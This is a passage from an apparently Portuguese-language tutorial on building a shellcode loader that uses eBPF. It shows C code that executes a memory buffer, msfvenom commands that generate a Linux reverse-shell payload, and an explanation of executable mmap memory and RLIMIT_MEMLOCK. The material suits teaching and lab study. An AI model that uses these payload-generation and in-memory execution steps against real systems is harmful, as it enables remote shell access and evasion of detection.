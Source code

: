 ```c
    ((void(*)())mem)();
}

```




#### Geração com o msfvenom:

Uma forma prática e rapida de gerar shellcodes é com o msfvenom, do metasploit, aqui vou deixar uns exemplos de como gerar shellcodes pelo msfvenom:

gerar **shellcode** para uma reverse shell em x86_64;

### Arquivo:"bash" 

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f c
```




isso gera o **shellcode** em formato C para ser copiado direto no código, mas você também pode gerar um **shellcode** "puro" em binário desta forma:


### Arquivo:"bash" 

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f raw -o pwnbuffer.bin
```




## 2.3 - Integração com loader

Agora, levantamos uma questão: por que usar `mmap()` com `PROT_EXEC`? De forma direta, precisamos de uma região de memoria que possa executar código. O `mmap()` com `PROT_READ | PROT_WRITE | PROT_EXEC` permite alocar espaço onde copiamos o **shellcode** e conseguimos executar ele direto na RAM!

**eBPF** exige que seus mapas e programas sejam travados na memória (sem swap), então o papel do `RLIMIT_MEMLOCK` é definir quanto de memória o processo pode travar, se for muito baixo, o `bpf()` falha com `EPERM`, por isso, aumetamos esse limite com:


```C
struct rlimit r = {RLIM_INFINITY, RLIM_INFINITY};
setrlimit(RLIMIT_MEMLOCK, &r);
```




Sem isso, o loader nem carrega o **eBPF**.

---

# 3 - Implementação
